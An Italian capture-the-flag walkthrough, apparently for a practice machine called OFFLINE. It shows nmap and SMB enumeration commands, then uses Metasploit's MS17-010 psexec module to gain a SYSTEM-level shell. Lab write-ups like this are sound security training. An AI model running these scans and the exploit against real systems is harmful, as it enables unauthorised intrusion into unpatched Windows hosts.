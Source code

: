# OFFLINE



## ENUM
avviamo una scansione sulla macchina
```bash
sudo nmap -sC -sV OFFLINE.thm
```

successivamente avviamo uno scan con i vari script di nmap per quanto riguarda smb
```bash
sudo nmap -sV -p 445 --script *smb* OFFLINE.thm
```

lo script ci restituisce un nome utente SCARRA e per quanto riguarda il server ci dice che l'smb gira con la versione SMBv1
molto utile perchè ci specifica una versione con vulnerabilità critiche andiamo ad anilizzare meglio la vulnerabilità

## MS17-010

consente di inviare sul protocollo richieste smb che permettono successivamente all'utente di assumere privilegi di amministrazione

/NT-autority system e successivamente inviare codice come admin di sistema

usiamo questa vulnerabilità per entrare sul sistema 

avviamo metasploit
```bash
msfconsole
```
entriamo sull'exploit
```bash
use exploit/windows/smb/ms17_010_psexec
```
impostiamo tutte le infomazioni richieste dall'exploit e lanciamolo


BINGO! siamo dentro con l'utente NT-autority

